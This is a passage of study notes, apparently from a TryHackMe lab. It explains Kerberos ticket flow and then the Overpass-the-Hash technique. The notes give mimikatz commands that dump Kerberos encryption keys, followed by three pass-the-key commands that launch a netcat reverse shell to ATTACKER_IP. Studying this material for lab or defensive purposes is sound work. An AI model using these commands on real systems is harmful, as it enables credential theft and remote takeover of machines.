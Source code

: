 cookies)</li></ul><p id="eba5a0ed-0506-4988-87cd-df3f8842665f" class="">Kerberos authentication process:</p><ol type="1" id="6ed33b4b-2698-42bc-b575-85ea6c2c5901" class="numbered-list" start="1"><li>Username and timestamp encrypted using password and sent to <strong>Key Distribution Center (KDC)</strong><ul id="19e068e8-7332-46f6-b729-3b0018cd21ca" class="bulleted-list"><li style="list-style-type:disc">KDC is responsible for creating Kerberos tickets</li></ul></li></ol><ol type="1" id="708d0b07-2067-4344-a539-ec614a0ae572" class="numbered-list" start="2"><li>KDC sends back a <strong>Ticket Granting Ticket (TGT)</strong> and <strong>Session Key</strong><ul id="96aff28a-50ba-4810-af10-98d6ad7df8e4" class="bulleted-list"><li style="list-style-type:disc">TGT allows user to request additional tickets to access specific services </li></ul><ul id="6bcc4e80-c8d5-470b-8d80-4f6a349ae3b6" class="bulleted-list"><li style="list-style-type:disc">TGT encrypted with krbtgt password hash to help prevent user from tampering its contents<ul id="72c3c952-6d76-4096-9d1f-a78992d83ec7" class="bulleted-list"><li style="list-style-type:circle">TGT contain session key, expiration date, and user’s IP address</li></ul></li></ul></li></ol><ol type="1" id="5eb7cd5a-f36f-409f-94b1-b365f44e6f69" class="numbered-list" start="3"><li>When user attempts to access a service, the KDC sends a <strong>Ticket Granting Service (TGS) </strong>and <strong>Service Session Key</strong> <ul id="03348d83-350b-4f0a-9fdf-4f77c0079548" class="bulleted-list"><li style="list-style-type:disc">TGS tickets only allow a user to access a specific service</li></ul><ul id="d91c1580-36d7-445f-b541-97f5bca352fb" class="bulleted-list"><li style="list-style-type:disc">user sends username and timestamp encrypted with their session key, and also sends their TGT, and <strong>Service Principal Name (SPN)</strong><ul id="1c396f3e-a312-4444-bd1e-856f9707d3ec" class="bulleted-list"><li style="list-style-type:circle">SPN is service and server name user wants to access</li></ul></li></ul><ul id="a4f13ff2-ea34-4356-80ae-ba1e01e64d97" class="bulleted-list"><li style="list-style-type:disc">TGS encrypted with key derived from the Service Owner Hash<ul id="c536a12e-02f5-4818-8744-09ba525b5654" class="bulleted-list"><li style="list-style-type:circle">Service owner is user or machine that manages the service</li></ul></li></ul></li></ol><h3 id="cb503efd-0e1a-4634-8a7c-5b68dcea404b" class="">Overpass-the-Hash / Pass-the-Key</h3><ul id="0117ebb3-4425-481a-b60d-fcda6a366dff" class="bulleted-list"><li style="list-style-type:disc">when a user requests a TGT, a timestamp encrypted with key derived from password is used<ul id="bc33d6b7-b937-4ab7-82a4-57fcdd998be0" class="bulleted-list"><li style="list-style-type:circle">encrypted uses either DES (disabled by default on current Windows versions), RC4, AES128, or AES256</li></ul></li></ul><ul id="2d06e5ac-1899-4b2d-b1a2-22520cce38b4" class="bulleted-list"><li style="list-style-type:disc">can request KDC for TGT with just having the key and not the user’s password</li></ul><p id="bdceea2a-3e9f-4ace-8a01-8b0dfdab35b2" class=""><span style="border-bottom:0.05em solid">Obtaining Kerberos Encryption Keys</span></p><pre id="3a22f1f7-d697-4083-a9c5-a2cfa7cf5324" class="code code-wrap"><code>mimikatz# privilege::debug
mimikatz# sekurlsa::ekeys</code></pre><p id="29e30e8d-472e-4560-9f87-b98275b912db" class=""><strong>Getting Reverse Shell with Encryption Key</strong></p><p id="8476f5a4-3bea-4066-bea9-736da6763816" class=""><span style="border-bottom:0.05em solid">RC4</span></p><p id="3490bcde-51f6-4e06-ae7d-6b480c573cf4" class=""><code>mimikatz </code><code><strong>#</strong></code><code> sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:&quot;c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556&quot;</code></p><ul id="703f0fd9-21ec-476c-b104-798ec7e1a715" class="bulleted-list"><li style="list-style-type:disc">note that RC4 simply uses the user’s NTLM hash</li></ul><p id="508eb3f2-8607-4802-9775-c93c7b35761a" class=""><span style="border-bottom:0.05em solid"><span style="border-bottom:0.05em solid"><span style="border-bottom:0.05em solid"><span style="border-bottom:0.05em solid"><span style="border-bottom:0.05em solid"><span style="border-bottom:0.05em solid"><span style="border-bottom:0.05em solid">AES128
</span></span></span></span></span></span></span><code>mimikatz </code><code><strong>#</strong></code><code> sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:&quot;c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556&quot;</code></p><p id="ec30c358-57c0-4b5a-a7da-050a26a0a0a2" class=""><span style="border-bottom:0.05em solid">AES256</span></p><p id="0336c88f-4cd6-450e-b1f3-cbc352de2545" class=""><code>mimikatz </code><code><strong>#</strong></code><code> sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:&quot;c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556&quot;</code></p><p id="2e04047c-6c5b-4591-902e-de4025a763e8" class="">